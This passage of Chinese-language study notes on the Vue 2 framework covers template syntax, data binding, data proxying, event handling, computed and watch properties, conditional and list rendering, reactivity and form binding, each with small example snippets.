```yaml
---
title: Vue框架
date: 2022-05-21
---
```


# Vue

> 2021.7.17 - 2021.8.2

## 一、Vue基础

### 1-1 Vue简介

#### 1. 官网

> 英文：https://vuejs.org/
>
> 中文：https://cn.vuejs.org/

#### 2. Vue是什么？

> 一套用于`构建用户界面`的`渐进式`JavaScript框架
>
> 渐进式：Vue可以自底向上逐层的应用：
>
> - 简单应用：只需一个轻量小巧的核心库
> - 复杂应用：可以引入各式各样的Vue插件

#### 3. 谁开发的？

> 尤雨溪
>
> 后起之秀，生态完善，已然成为国内前端工程师必备技能、

#### 4. Vue的特点

> 1. 采用`组件化`模式，提高代码复用率、且让代码更好维护
> 2. `声明式`编码，让编码人员无需直接操作DOM，提高开发效率（JS是命令式编码，一步一步指令）
> 3. 使用`虚拟DOM`+优秀的`Diff算法`，尽量复用DOM节点

#### 5. 学习Vue之前要掌握的JavaScript基础知识

> ES6语法规范
>
> ES6模块化
>
> 包管理器（npm、cpm...）
>
> 原型、原型链
>
> 数组常用方法
>
> axios
>
> promise
>
> ...

### 1-2 官网导航

#### 1. 学习

> 1. 教程！！！
> 2. API（Vue字典）！！！
> 3. 风格指南：如何写出优雅的代码
> 4. 示例：把示例左边框往右边拉就能看到代码
> 5. Cookbook：技巧
> 6. 视频教程

#### 2. 生态系统

> 1. 帮助
>
> 2. 工具！！！
>
> 3. 核心插件！！！
>
> 4. 信息

#### 3. 团队

> 1. 合作伙伴
>
> 2. 主题
>
> 3. Awesome Vue（官方推荐的第三方库）！！！
>
> 4. 浏览和Vue相关的包

#### 4. 其他...

### 1-3 初始Vue

#### 1. 安装

1. 直接用<script>引入（vue.js/vue.min.js），引入后就多了个Vue构造函数，这时开发者工具上会有两个提示：

   - 提示安装devtools开发者调试工具以便更好的调试，点击跳转到GitHub，要在Chrome上安装，所以点击Installation里的`Get the Chrome Extension`，然后将下载的包添加到浏览器的扩展中即可

   - 提示发布时使用生产版本（vue.min.js），可以在官网API中看到Vue.config这个对象，是全局配置，里面的productionTip改为false就可以阻止vue在启动时生成生产提示

     ```JavaScript
     Vue.config.productionTip = false
     ```

2. NPM安装，同时配合命令行工具（CLI）

#### 2. 简单样例

```HTML
<!-- 准备好一个容器 -->
<div id="demo">
	<h1>Hello，{{name.toUpperCase()}}，{{address}}</h1>
</div>
<script type="text/javascript" >
	Vue.config.productionTip = false 
	//创建Vue实例
	new Vue({
		el:'#demo', //el用于指定当前Vue实例为哪个容器服务，值通常为css选择器字符串。(也可以是document.getElementById('#demo'))
		data:{ //data中用于存储数据，数据供el所指定的容器去使用，值我们暂时先写成一个对象。
			name:'atguigu',
			address:'北京'
		}
	})
</script>
```

#### 3. 相关问题

1. 想让Vue工作，就必须创建一个Vue实例，且要传入一个配置对象；
2. 容器里的代码依然符合html规范，只不过混入了一些特殊的Vue语法；
3. 容器里的代码被称为【Vue模板】；
4. Vue实例和容器是一一对应的；
5. 真实开发中只有一个Vue实例，并且会配合着组件一起使用；
6. {{xxx}}中的xxx要写js表达式，且xxx可以自动读取到data中的所有属性；
7. 一旦data中的数据发生改变，那么页面中用到该数据的地方也会自动更新；

```
注意区分：js表达式 和 js代码(语句)
1.表达式(即特殊的js语句)：一个表达式会产生一个值，可以放在任何一个需要值的地方：				
	(1). a							
	(2). a+b						
	(3). demo(1)					
	(4). x === y ? 'a' : 'b'
2.js代码(语句)
	(1). if(){}
	(2). for(){}
```

### 1-4 模板语法

#### 1. 插值语法

1. 功能：用于解析标签体内容。

2. 写法：{{ xxx }}，xxx是js表达式，且可以直接读取到data中的所有属性

#### 2. 指令语法

1. 功能：用于解析标签（包括：标签属性、标签体内容、绑定事件.....）
2. 写法：v-????
3. 举例：v-bind:href="xxx" 或 简写为 :href="xxx"，xxx同样要写js表达式，且可以直接读取到data中的所有属性。

### 1-5 数据绑定

#### 1. 单向数据绑定(v-bind)：

1. 数据只能从data流向页面。

  #### 2.双向绑定(v-model)：

1. 数据不仅能从data流向页面，还可以从页面流向data。
2. v-model只能应用在表单类元素（输入类元素 如：input、select等）上 ，因为它作用于value
3. v-model:value 可以简写为 v-model，因为v-model默认收集的就是value值。

### 1-6 el与data的两种写法

#### 1. el

1. new Vue时候配置el属性，el:'#root'
2. 先创建Vue实例，随后再通过vm.$mount('#root')指定el的值(mount：挂载)

#### 2. data

1. 对象式

   ```js
   data:{
   	name:'尚硅谷'
   }
   ```

2. 函数式（必须有return{}）

   ```js
   data(){
   	console.log('@@@',this) //此处的this是Vue实例对象
   	return{
   		name:'尚硅谷'
   	}
   }
   ```

3.  如何选择：目前哪种写法都可以，以后学习到组件时，data必须使用函数式，否则会报错。

4. 一个重要的原则：

   ```
   由Vue管理的函数，一定不要写箭头函数，一旦写了箭头函数，this就不再是Vue实例了，箭头函数没有自己的this，往外找，就找到了全局的window
   ```

### 1-7 MVVM模型

#### 1. MVVM模型

1. M：模型（Model）：对应data中的数据

2. V：视图（View）：模板

3. VM：视图模型（ViewModel）：Vue实例对象（因此在文档中经常会使用 `vm` (ViewModel 的缩写) 这个变量名表示 Vue 实例）

<img src="笔记/images/MVVM模型.png" alt="MVVM模型"  />

<img src="笔记/images/MVVM.png" alt="MVVM" style="zoom: 67%;" />

#### 3. 观察发现

1. data中所有的属性，最后都出现在了vm身上。
2. vm身上所有的属性 及 Vue原型上所有属性，在Vue模板中都可以直接使用。

### 1-8 数据代理

#### 1. Object.defineproperty方法

1. [`Object.defineProperty()`](https://developer.mozilla.org/zh-CN/docs/Web/JavaScript/Reference/Global_Objects/Object/defineProperty) 方法会直接在一个对象上定义一个新属性，或者修改一个对象的现有属性，并返回此对象，新增的属性默认是不参与枚举（遍历）的。

2. 语法：

   ```
   Object.defineProperty(obj, prop, descriptor)
   - obj: 要定义属性的对象
   - prop: 要定义或修改的属性的名称或 Symbol 。
   - descriptor: 要定义或修改的属性描述符。
   ```

3. 描述符：
   - `enumerable` 定义了对象的属性是否可以在 [`for...in`](https://developer.mozilla.org/zh-CN/docs/Web/JavaScript/Reference/Statements/for...in) 循环和 [`Object.keys()`](https://developer.mozilla.org/zh-CN/docs/Web/JavaScript/Reference/Global_Objects/Object/keys) 中被枚举，默认为false
   - `value` 该属性对应的值。可以是任何有效的 JavaScript 值（数值，对象，函数等），默认为 [`undefined`](https://developer.mozilla.org/zh-CN/docs/Web/JavaScript/Reference/Global_Objects/undefined)。
   - `writable` 控制属性是否可以被修改，也就是上面的 `value`，能否被[`赋值运算符`](https://developer.mozilla.org/zh-CN/docs/conflicting/Web/JavaScript/Reference/Operators_8d54701de06af40a7c984517cbe87b3e)改变，默认为 `false`。
   - `configurable` 当且仅当该属性的 `configurable` 键值为 `true` 时，该属性的描述符才能够被改变，同时该属性也能从对应的对象上被删除，默认为 `false`。
   - `get` 属性的 getter 函数。当访问该属性时，会调用此函数。执行时不传入任何参数，但是会传入 `this` 对象（由于继承关系，这里的`this`并不一定是定义该属性的对象）。该函数的返回值会被用作属性的值，默认为 `undefined`。
   - `set` 属性的 setter 函数。当属性值被修改时，会调用此函数。该方法接受一个参数（也就是被赋予的新值），会传入赋值时的 `this` 对象，默认为 `undefined`。

```js
let number = 18
let person = {
	name:'张三',
	sex:'男',
}
Object.defineProperty(person,'age',{
	// value:18,
	// enumerable:true, //控制属性是否可以枚举，默认值是false
	// writable:true, //控制属性是否可以被修改，默认值是false
	// configurable:true //控制属性是否可以被删除，默认值是false

	//当有人读取person的age属性时，get函数(getter)就会被调用，且返回值就是age的值
    /* 
     * 在控制台中，将鼠标放在该属性值(即省略号)上时会出现提示：Invoke property getter(调用属性的getter)
     * age: (...) 点击这个省略号就会调用get()读取属性
     */
	get(){
		console.log('有人读取age属性了')
		return number
	},
	//当有人修改person的age属性时，set函数(setter)就会被调用，且会收到修改的具体值
	set(value){
		console.log('有人修改了age属性，且值是',value)
		number = value
	}
})
```

#### 2. 定义

- 数据代理：通过一个对象代理对另一个对象中属性的操作（读/写）

```js
let obj = {x:100}
let obj2 = {y:200}
//本例实现了通过obj2对obj的数据代理
Object.defineProperty(obj2,'x',{
	get(){
		return obj.x
	},
	set(value){
		obj.x = value
	}
})
```

#### 3. Vue中的数据代理

1. Vue中的数据代理：通过vm对象来代理data对象中属性的操作（读/写）

2. Vue中数据代理的好处：更加方便的操作data中的数据

3. 基本原理：

   - 通过Object.defineProperty()把data对象中所有属性添加到vm上。

   - 为每一个添加到vm上的属性，都指定一个getter/setter。

   - 在getter/setter内部去操作（读/写）data中对应的属性。

![数据代理](.\images\数据代理.png)

### 1-9 事件处理

#### 1. 事件的基本使用

1. 使用v-on:xxx 或 @xxx 绑定事件，其中xxx是事件名；
2. 事件的回调需要配置在methods对象中，最终会在vm上（如果写在data上则会做一个数据代理，而这是没必要的)；
3. methods中配置的函数，不要用箭头函数！否则this就不是vm了；
4. methods中配置的函数，都是被Vue所管理的函数，this的指向是vm 或 组件实例对象；
5. @click="demo" 和 @click="demo($event)" 效果一致，但后者可以传参；

```HTML
<div id="root">
	<h2>欢迎来到{{name}}学习</h2>
	<button @click="showInfo1">点我提示信息1（不传参）</button>
	<button @click="showInfo2($event,66)">点我提示信息2（传参）</button>
</div>
```

```js
methods:{
	showInfo1(event){
        // console.log(event.target.innerText)
        // console.log(this) //此处的this是vm
        alert('同学你好！')
	},
	showInfo2(event,number){
		console.log(event,number)
		// console.log(event.target.innerText)
		// console.log(this) //此处的this是vm
		alert('同学你好！！')
	}
}
```

#### 2. 事件修饰符

1. prevent：阻止默认事件（常用）；<==> 相当于在回调函数中调用了`event.preventDefault()`方法
2. stop：阻止事件冒泡（常用）；<==> `event.stopPropagation()`
3. once：事件只触发一次（常用）；
4. capture：使用事件的捕获模式（即在捕获阶段就触发事件）；
5. self：只有event.target是当前操作的元素时才触发事件(在某种程度上来说也能阻止冒泡)；
6. passive：事件的默认行为立即执行，无需等待事件回调执行完毕（一般移动端会用一下）；

```html
<!-- wheel事件表示鼠标滚轮滚动事件，触发时会先执行回调函数，再执行默认行为（滚动条滚动） -->
<ul @wheel.passive="demo" class="list">
	<li>1</li>
    <li>2</li>
    <li>3</li>
    <li>4</li>
</ul>
<!-- 修饰符可以连续写，如下所示是先阻止默认行为再阻止冒泡；@click.stop.prevent是先阻止冒泡再阻止默认行为 -->
<!-- <a href="http://www.atguigu.com" @click.prevent.stop="showInfo">点我提示信息</a> -->
```

```js
demo() {
	for (let i = 0; i < 100000; i++) {
		console.log('#')
	}
	console.log('累坏了')
}
```

#### 3. 键盘事件

1. Vue中常用的按键别名：

   ```
   回车 => enter
   删除 => delete (捕获“删除”和“退格”键)
   退出 => esc
   空格 => space
   换行 => tab (特殊，必须配合keydown去使用，因为它按下后就会切换焦点，所以无法配合keyup使用)
   上 => up
   下 => down
   左 => left
   右 => right
   ```

2. Vue未提供别名的按键，可以使用按键原始的key值去绑定，但注意要转为kebab-case（短横线命名），比如CapsLock→caps-lock

3. 系统修饰键（用法特殊）：ctrl、alt、shift、meta(即Win)

   1) 配合keyup使用：按下修饰键的同时，再按下其他键，随后释放其他键，事件才被触发。

   2) 配合keydown使用：正常触发事件。

4. 也可以使用keyCode去指定具体的按键（不推荐，因为未来也许keyCode会被废止）

5. Vue.config.keyCodes.自定义键名 = 键码，可以去定制按键别名

```HTML
<input type="text" placeholder="按下回车提示输入" @keydown.enter="showInfo"> <!-- 按下Enter键触发 -->
<!-- 系统修饰符也可以连续写，比如要按下ctrl+y键才能触发 -->
<input type="text" placeholder="按下回车提示输入" @keydown.ctrl.y="showInfo">
```

### 1-10 计算属性与监视

#### 1. 计算属性

1. 定义

   - 计算属性：要用的属性不存在，要通过已有属性计算得来，计算属性要有一个全新的配置项computed
   - 对Vue来说，data里面的数据就是属性，只要Vue中的数据改变，就会重新解析模板，遇到插值语法里的方法会重新调用

2. 原理

   - 底层借助了`Objcet.defineproperty`方法提供的getter和setter。

3. get函数什么时候执行？

   - 初次读取时会执行一次。

   - 当`依赖的数据`发生改变时会被再次调用。

4. 优势

   - 与methods实现相比，内部有缓存机制（复用），效率更高，调试方便。

5. 备注

   - 计算属性最终会出现在vm上，直接读取使用即可。

   - 如果计算属性要被修改，那必须写set函数去响应修改，且set中要引起计算时依赖的数据发生改变。

```js
const vm = new Vue({
    ...
    computed:{
        fullName:{
            //get有什么作用？当有人读取fullName时，get就会被调用，且返回值就作为fullName的值
            //get什么时候调用？1.初次读取fullName时。2.所依赖的数据发生变化时。
            get(){
                console.log('get被调用了')
                // console.log(this) //此处的this是vm
                return this.firstName + '-' + this.lastName
            },
            //set什么时候调用? 当fullName被修改时。
            set(value){
                console.log('set',value)
                const arr = value.split('-')
                this.firstName = arr[0]
                this.lastName = arr[1]
            }
        }
    }
})    
```

```js
//简写(只读不写时才能简写，该函数就当getter用)
fullName(){
	console.log('get被调用了')
	return this.firstName + '-' + this.lastName
}
```

#### 2. 监视（侦听）属性

```HTML
<!-- 绑定事件的时候：@xxx="yyy" yyy可以写一些简单的语句 -->
<button @click="isHot = !isHot">切换天气</button>
```

1. 监视属性watch：

   - 当被监视的属性变化时, 回调函数自动调用, 进行相关操作
   - 监视的属性必须存在，才能进行监视！！
   - 监视的两种写法：

   ```js
   // 1. new Vue时传入watch配置
   const vm = new Vue({
       ...
       watch:{
           isHot:{
               immediate:true, //初始化时让handler调用一下
               //handler什么时候调用？当isHot发生改变时。
               handler(newValue,oldValue){
                   console.log('isHot被修改了',newValue,oldValue)
               }
           }
       }
   })
   // 2. 通过vm.$watch监视
   vm.$watch('isHot',{
   	immediate:true, //初始化时让handler调用一下，默认是false
   	//handler什么时候调用？当isHot发生改变时。
   	handler(newValue,oldValue){ // 有两个参数，一个是新值，一个是旧值
   		console.log('isHot被修改了',newValue,oldValue)
   	}
   })
   ```

2. 深度监视

   - 深度监视：

     1）Vue中的watch默认不监测对象内部值的改变（一层）。

     2）配置deep:true可以监测对象内部值改变（多层）。

   - 备注：

     1）Vue自身可以监测对象内部值的改变，但Vue提供的watch默认不可以！

     2）使用watch时根据数据的具体结构，决定是否采用深度监视。

   ```js
   data:{
   	isHot:true,
   	numbers:{
   		a:1,
   		b:1
   	}
   },
   watch:{
   	// 监视多级结构中某个属性的变化（原始写法是要加引号的，简写可以不加，但这种情况要加，否则报错）
   	/* 'numbers.a':{
   		handler(){
   			console.log('a被改变了')
   		}
   	} */
   	//监视多级结构中所有属性的变化
   	numbers:{
   		deep:true, // 如果不开启这个，那监测的就是numbers的地址是否有变化
   		handler(){
   			console.log('numbers改变了')
   		}
   	}
   }
   ```

3. 监视属性-简写

   当监视属性中只有handler()而不需要开启其他配置项时才能简写

   ```js
   watch:{
   	isHot(newValue,oldValue){
   		console.log('isHot被修改了',newValue,oldValue,this)
   	}
   }
   
   /* vm.$watch('isHot',function (newValue,oldValue) {
   	console.log('isHot被修改了',newValue,oldValue,this)
   }) */
   ```

#### 3. 区别和原则

1. computed和watch之间的区别
   - computed能完成的功能，watch都可以完成。
   - watch能完成的功能，computed不一定能完成，例如：watch可以进行异步操作。
2. 两个重要的小原则
   - 所有被Vue管理的函数，最好写成普通函数，这样`this的指向才是vm 或 组件实例对象`。
   - 所有不被Vue所管理的函数（定时器的回调函数、ajax的回调函数等、Promise的回调函数），最好写成箭头函数，这样`this的指向才是vm 或 组件实例对象`。

```js
watch:{
	firstName(val){
		setTimeout(()=>{
			console.log(this) //vue实例对象，若用普通函数则返回Window
			this.fullName = val + '-' + this.lastName
		},1000);
	},
	lastName(val){
		this.fullName = this.firstName + '-' + val
	}
}
```

### 1-11 绑定样式

#### 1. 绑定class样式

- 写法:class="xxx" xxx可以是字符串、对象、数组。

```html
<!-- 字符串写法，适用于：样式的类名不确定，需要动态指定 -->
<div class="basic" :class="mood" @click="changeMood">{{name}}</div>

<!-- 数组写法，适用于：要绑定的样式个数不确定、名字也不确定 -->
<div class="basic" :class="classArr">{{name}}</div>

<!-- 对象写法，适用于：要绑定的样式个数确定、名字也确定，但要动态决定用不用 -->
<div class="basic" :class="classObj">{{name}}</div>
```

```js
data:{
	name:'尚硅谷',
	mood:'normal',
	classArr:['atguigu1','atguigu2','atguigu3'], // 可以通过数组的相关方法来移除或添加
	classObj:{ // true就是应用，false就是不应用
		atguigu1:false,
		atguigu2:false,
	}
},
methods: {
	changeMood(){
		const arr = ['happy','sad','normal']
		const index = Math.floor(Math.random()*3) // 随机生成[0, 2]的数据
		this.mood = arr[index]
	}
},
  
/*  vm.classArr.shift(); // 删除第一个
vm.classArr.push('atguigu1'); */
```

#### 2. 绑定style样式

- :style="{fontSize: xxx}"其中xxx是动态值，属性名用驼峰命名法，或者加引号 → {'font-size': xxx}
  :style="[a,b]"其中a、b是样式对象。

```html
<!-- 对象写法 -->
<div class="basic" :style="styleObj">{{name}}</div>

<!-- 数组写法，比较少用 -->
<div class="basic" :style="[styleObj, styleObj2]">{{name}}</div>
<div class="basic" :style="styleArr">{{name}}</div>
```

```js
data: {
    styleObj: {
        fontSize: '40px',
        color: 'red',
    },
    styleObj2: {
        backgroundColor: 'orange'
    },
    styleArr: [{
        fontSize: '40px',
        color: 'blue',
    }, {
        backgroundColor: 'gray'
    }]
},
```

### 1-12 条件渲染

#### 1. v-show

- 写法：v-show="表达式"
- 适用于：切换频率较`高`的场景
- 特点：不展示的DOM元素`未被移除`，仅仅是使用样式diaplay:none隐藏掉

```html
<!-- <h2 v-show="false">欢迎来到{{name}}</h2> -->
<h2 v-show="1 === 1">欢迎来到{{name}}</h2>
```

#### 2. v-if

- 写法：

  1）v-if="表达式" 

  2）v-else-if="表达式"

  3）v-else="表达式"

- 适用于：切换频率较`低`的场景

- 特点：不展示的DOM元素`直接被移除

- 注意：v-if可以和 v-else-if、v-else 一起使用，但要求结构不能被“打断”。

```html
<div v-if="n === 1">Angular</div>
<div v-else-if="n === 2">React</div>
<!-- <div></div> --> <!-- 这个盒子是不允许出现在这里的，会打断v-xxx的条件分支 -->
<div v-else-if="n === 3">Vue</div>
<div v-else>哈哈</div>

<!-- v-if与template的配合使用，template不会在DOM中显示 | 注意：template不能与v-show配合使用 -->
<template v-if="n === 1">
	<h2>你好</h2>
	<h2>尚硅谷</h2>
	<h2>北京</h2>
</template>
```

#### 3. 备注

- 使用v-if的时，元素可能无法获取到，而使用v-show一定可以获取到。因为用v-if时，若值为false，则元素直接被移除，此时无法获取到元素

### 1-13 列表渲染

#### 1. 基本列表

- v-for指令:

  1. 用于展示列表数据

  2. 语法：

     - v-for="item in items" :key="yyy"
     - v-for="(item, index) in items" :key="yyy"

  3. 可遍历：数组、对象、字符串（用的很少）、指定次数（用的很少）

     除了对象中k是属性名，遍历其他类型时样例中的index都是从0起算

```html
<!-- 准备好一个容器-->
<div id="root">
	<!-- 遍历数组 -->
	<ul>
		<li v-for="(p,index) of persons" :key="index"> <!-- 这里的key也可以是p.id -->
			{{p.name}}-{{p.age}}
		</li>
	</ul>
	<!-- 遍历对象 -->
	<ul>
		<li v-for="(value,k) of car" :key="k"> <!-- k-属性名|value-属性值 -->
			{{k}}-{{value}}
		</li>
	</ul>
	<!-- 遍历字符串（用得少） -->
	<ul>
		<li v-for="(char,index) of str" :key="index"> <!-- char表示str的每个字符 -->
			{{char}}-{{index}}
		</li>
	</ul>
	
	<!-- 遍历指定次数（用得少） -->
	<ul>
		<li v-for="(number,index) of 5" :key="index"> <!-- number∈[1, 5] -->
			{{index}}-{{number}}
		</li>
	</ul>
</div>
```

```js
data:{
	persons:[
		{id:'001',name:'张三',age:18},
		{id:'002',name:'李四',age:19},
		{id:'003',name:'王五',age:20}
	],
	car:{
		name:'奥迪A8',
		price:'70万',
		color:'黑色'
	},
	str:'hello'
}
```

#### 2. key的原理

1. 从后台请求过来的数据一定会有一个唯一标识，这样数据库中才能对数据进行增删改查操作，也就是键值

2. 面试题：react、vue中的key有什么作用？（key的内部原理）

![遍历列表时key的作用（index作为key）](.\images\遍历列表时key的作用（index作为key）.png)

	1. 虚拟DOM中key的作用：
		key是虚拟DOM对象的标识，当数据发生变化时，Vue会根据【新数据】生成【新的虚拟DOM】, 
		随后Vue进行【新虚拟DOM】与【旧虚拟DOM】的差异比较，比较规则如下：
	2.对比规则：
		(1).旧虚拟DOM中找到了与新虚拟DOM相同的key：
			①.若虚拟DOM中内容没变, 直接使用之前的真实DOM！
			②.若虚拟DOM中内容变了, 则生成新的真实DOM，随后替换掉页面中之前的真实DOM。
		(2).旧虚拟DOM中未找到与新虚拟DOM相同的key
			创建新的真实DOM，随后渲染到到页面。
	3. 用index作为key可能会引发的问题：
		1. 若对数据进行：逆序添加、逆序删除等破坏顺序操作:
			会产生没有必要的真实DOM更新 ==> 界面效果没问题, 但效率低。
		2. 如果结构中还包含输入类的DOM：
			会产生错误DOM更新 ==> 界面有问题。
	4. 开发中如何选择key?:
		1.最好使用每条数据的唯一标识作为key, 比如id、手机号、身份证号、学号等唯一值。
		2.如果不存在对数据的逆序添加、逆序删除等破坏顺序操作，仅用于渲染列表用于展示，
		使用index作为key是没有问题的。

![遍历列表时key的作用（id作为key）](.\images\遍历列表时key的作用（id作为key）.png)

#### 3. 列表过滤

- 用数组方法 `filter()`，该方法创建一个新数组, 其包含通过所提供函数实现的测试的所有元素

  ```
  语法：var newArray = arr.filter(callback(element[, index[, array]])[, thisArg])
  - callback：用来测试数组的每个元素的函数。返回 true 表示该元素通过测试，保留该元素，false 则不保留
  	- element：数组中当前正在处理的元素。
  	- index：(可选)正在处理的元素在数组中的索引。
  	- array：(可选)调用了 filter 的数组本身。
  - thisArg：(可选)执行 callback 时，用于 this 的值。
  ```

- 模糊查询用数组方法`indexOf()`，该方法返回在数组中可以找到一个给定元素的第一个索引，若存在，则返回的索引从0起算；如果不存在，则返回-1。另外，若查询的是一个空串，也返回0

```html
<!-- 准备好一个容器-->
<div id="root">
    <h2>人员列表</h2>
    <input type="text" placeholder="请输入名字" v-model="keyWord">
    <ul>
        <li v-for="(p,index) of filPerons" :key="p.id">
            {{p.name}}-{{p.age}}-{{p.sex}}
        </li>
    </ul>
</div>
```

```js
//用watch实现
new Vue({
	el:'#root',
	data:{
		keyWord:'',
		persons:[
			{id:'001',name:'马冬梅',age:19,sex:'女'},
			{id:'002',name:'周冬雨',age:20,sex:'女'},
			{id:'003',name:'周杰伦',age:21,sex:'男'},
			{id:'004',name:'温兆伦',age:22,sex:'男'}
		],
		filPerons:[]
	},
	watch:{
		keyWord:{
			immediate:true, //初始化时让handler调用一下，此时val=''(空串)，就能把persons赋给filPersons了
			handler(val){
				this.filPerons = this.persons.filter((p)=>{ //这里用回调函数，this是vue实例
					return p.name.indexOf(val) !== -1	   //若用普通函数，this是Window
				})
			}
		}
	}
})
```

```js
//用computed实现
new Vue({
    el: '#root',
    data: {
        keyWord: '',
        persons: [{
            id: '001',
            name: '马冬梅',
            age: 19,
            sex: '女'
        }, {
            id: '002',
            name: '周冬雨',
            age: 20,
            sex: '女'
        }, {
            id: '003',
            name: '周杰伦',
            age: 21,
            sex: '男'
        }, {
            id: '004',
            name: '温兆伦',
            age: 22,
            sex: '男'
        }]
    },
    computed: {
        filPerons() {
            return this.persons.filter((p) => {
                return p.name.indexOf(this.keyWord) !== -1
            })
        }
    }
})
```

```js
//#region 
/*
...小技巧：在VScode中，只要像这样把多行注释的内容包围起来，那多行注释的内容就可折叠了
*/
//#endregion
```

#### 4. 列表排序

```html
<!-- 准备好一个容器-->
<div id="root">
	<h2>人员列表</h2>
	<input type="text" placeholder="请输入名字" v-model="keyWord">
	<button @click="sortType = 2">年龄升序</button>
	<button @click="sortType = 1">年龄降序</button>
	<button @click="sortType = 0">原顺序</button>
	<ul>
		<li v-for="(p,index) of filPerons" :key="p.id">
			{{p.name}}-{{p.age}}-{{p.sex}}
			<input type="text">
		</li>
	</ul>
</div>
```

```js
new Vue({
	el:'#root',
	data:{
		keyWord:'',
		sortType:0, //0原顺序 1降序 2升序
		persons:[
			{id:'001',name:'马冬梅',age:30,sex:'女'},
			{id:'002',name:'周冬雨',age:31,sex:'女'},
			{id:'003',name:'周杰伦',age:18,sex:'男'},
			{id:'004',name:'温兆伦',age:19,sex:'男'}
		]
	},
	computed:{
		filPerons(){ //该计算属性依赖于sortType，只要它变了就会重新计算
			const arr = this.persons.filter((p)=>{
				return p.name.indexOf(this.keyWord) !== -1
			})
			//判断一下是否需要排序
			if(this.sortType){
				arr.sort((p1,p2)=>{
					return this.sortType === 1 ? p2.age-p1.age : p1.age-p2.age
				})
			}
			return arr
		}
	}
}) 
```

#### 5. Vue监测数据改变的原理

 1. vue会监视data中所有层次的数据。

 2. 如何监测`对象`中的数据？

    通过setter实现监视(给每个属性添加数据代理)，且要在new Vue时就传入要监测的数据。
    		(1) 对象中后追加的属性，Vue默认不做响应式处理
    		(2) 如需给后添加的属性做响应式，请使用如下API：
    				`Vue.set(target，propertyName/index，value) ` 或 
    				`vm.$set(target，propertyName/index，value)`

 3. 如何监测`数组`中的数据？

    通过包裹数组`更新元素的方法`实现，本质就是做了两件事：
    		(1) 调用原生对应的方法对数组进行更新。
    		(2) 重新解析模板，进而更新页面。

 4. 在Vue修改数组中的某个元素一定要用如下方法：
    		        (1) 使用这些API: `push()、pop()、shift()、unshift()、splice()、sort()、reverse()`
                	(2) `Vue.set()` 或 `vm.$set()`

 5. 如果要使用诸如`filter()`之类不影响原数组的方法，就把通过该方法返回的数组直接替换原数组

	特别注意：Vue.set() 和 vm.$set() 不能给vm 或 vm的根数据对象(_data) 添加属性！！！

```html
<div id="root">
    <h1>学生信息</h1>
    <button @click="student.age++">年龄+1岁</button> <br/>
    <button @click="addSex">添加性别属性，默认值：男</button> <br/>
    <button @click="student.sex = '未知' ">修改性别</button> <br/>
    <button @click="addFriend">在列表首位添加一个朋友</button> <br/>
    <button @click="updateFirstFriendName">修改第一个朋友的名字为：张三</button> <br/>
    <button @click="addHobby">添加一个爱好</button> <br/>
    <button @click="updateHobby">修改第一个爱好为：开车</button> <br/>
    <button @click="removeSmoke">过滤掉爱好中的抽烟</button> <br/>
    <h3>姓名：{{student.name}}</h3>
    <h3>年龄：{{student.age}}</h3>
    <h3 v-if="student.sex">性别：{{student.sex}}</h3>
    <h3>爱好：</h3>
    <ul>
        <li v-for="(h,index) in student.hobby" :key="index">
            {{h}}
        </li>
    </ul>
    <h3>朋友们：</h3>
    <ul>
        <li v-for="(f,index) in student.friends" :key="index">
            {{f.name}}--{{f.age}}
        </li>
    </ul>
</div>
```

```js
const vm = new Vue({
    el: '#root',
    data: {
        student: {
            name: 'tom',
            age: 18,
            hobby: ['抽烟', '喝酒', '烫头'],
            friends: [{
                name: 'jerry',
                age: 35
            }, {
                name: 'tony',
                age: 36
            }]
        }
    },
    methods: {
        addSex() {
            // Vue.set(this.student,'sex','男')
            this.$set(this.student, 'sex', '男')
        },
        addFriend() {
            this.student.friends.unshift({
                name: 'jack',
                age: 70
            })
        },
        updateFirstFriendName() {
            this.student.friends[0].name = '张三' // 这里本质是修改对象的属性，有setter就能监测到变化
        },
        addHobby() {
            this.student.hobby.push('学习')
        },
        updateHobby() {
            // 不能通过索引（数组下标）直接修改
            // this.student.hobby.splice(0,1,'开车')
            // Vue.set(this.student.hobby,0,'开车')
            this.$set(this.student.hobby, 0, '开车')
        },
        removeSmoke() {
            this.student.hobby = this.student.hobby.filter((h) => {
                return h !== '抽烟'
            })
        }
    }
})
```

### 1-14 收集表单数据

若：`<input type="text"/>`，则v-model收集的是value值，用户输入的就是value值。
若：`<input type="radio"/>`，则v-model收集的是value值，且要给标签配置value值。
若：`<input type="checkbox"/>`

1. 没有配置input的value属性，那么收集的就是checked（勾选 or 未勾选，是布尔值）
2. 配置input的value属性:
   		(1) v-model的初始值是非数组，那么收集的就是checked（勾选 or 未勾选，是布尔值）
      		(2) v-model的初始值是数组，那么收集的的就是value组成的数组
   备注：v-model的三个修饰符：
   		lazy：失去焦点再收集数据
   		number：输入字符串转为有效的数字
   		trim：输入首尾空格过滤

```html
<div id="root">
	<form @submit.prevent="demo">
		账号：<input type="text" v-model.trim="userInfo.account"> <br/><br/>
		密码：<input type="password" v-model="userInfo.password"> <br/><br/>
		年龄：<input type="number" v-model.number="userInfo.age"> <br/><br/>
		性别：
		男<input type="radio" name="sex" v-model="userInfo.sex" value="male">
		女<input type="radio" name="sex" v-model="userInfo.sex" value="female"> <br/><br/>
		爱好：
		学习<input type="checkbox" v-model="userInfo.hobby" value="study">
		打游戏<input type="checkbox" v-model="userInfo.hobby" value="game">
		吃饭<input type="checkbox" v-model="userInfo.hobby" value="eat">
		<br/><br/>
		所属校区
		<select v-model="userInfo.city">
			<option value="">请选择校区</option>
			<option value="beijing">北京</option>
			<option value="shanghai">上海</option>
			<option value="shenzhen">深圳</option>
			<option value="wuhan">武汉</option>
		</select>
		<br/><br/>
		其他信息：
